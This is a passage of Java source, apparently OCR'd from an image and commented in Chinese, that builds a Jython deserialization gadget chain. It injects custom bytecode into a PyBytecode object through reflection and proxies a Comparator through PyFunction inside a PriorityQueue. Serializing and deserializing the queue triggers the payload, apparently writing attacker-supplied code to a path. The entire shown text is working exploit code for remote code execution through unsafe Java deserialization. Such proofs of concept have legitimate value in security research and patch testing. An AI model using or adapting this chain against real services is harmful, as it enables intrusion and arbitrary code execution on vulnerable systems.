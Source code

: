 ```plain
        // 初始化 PyBytecode
        PyBytecode bytecode = new PyBytecode(2, 2, 10, 64, "", consts, names, new String[]{"", ""}, "noname", "<module>", 0, "");
        Field field    = PyBytecode.class.getDeclaredField("co_code");
        field.setAccessible(true);
        field.set(bytecode, new BigInteger(pythonByteCode, 16).toByteArray());

        // 使用 PyBytecode 初始化 PyFunction
        PyFunction handler = new PyFunction(new PyStringMap(), null, bytecode);

        // 使用 PyFunction 代理 Comparator
        Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
        Object[]              queue         = new Object[]{path, code};

        Field queueField = PriorityQueue.class.getDeclaredField("queue");
        queueField.setAccessible(true);
        queueField.set(priorityQueue, queue);

        Field sizeField = PriorityQueue.class.getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(priorityQueue, 2);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(priorityQueue);

        byte[] bytes = byteArrayOutputStream.toByteArray();
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```
